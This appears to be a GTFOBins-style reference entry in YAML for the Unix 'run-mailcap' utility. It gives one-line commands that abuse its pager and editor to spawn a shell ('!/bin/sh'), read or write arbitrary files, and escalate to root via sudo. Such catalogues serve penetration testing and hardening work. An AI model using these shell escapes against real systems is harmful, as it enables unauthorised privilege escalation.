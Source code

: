 functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        run-mailcap --action=view /etc/hosts
        !/bin/sh
  file-read:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: run-mailcap --action=view file_to_read
  file-write:
    - description: |
        The file must exist and be not empty.

        This invokes the default editor, which is likely to be [`vi`](/gtfobins/vi/), other functions may apply.
      code: run-mailcap --action=edit file_to_read
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo run-mailcap --action=view /etc/hosts
        !/bin/sh
---
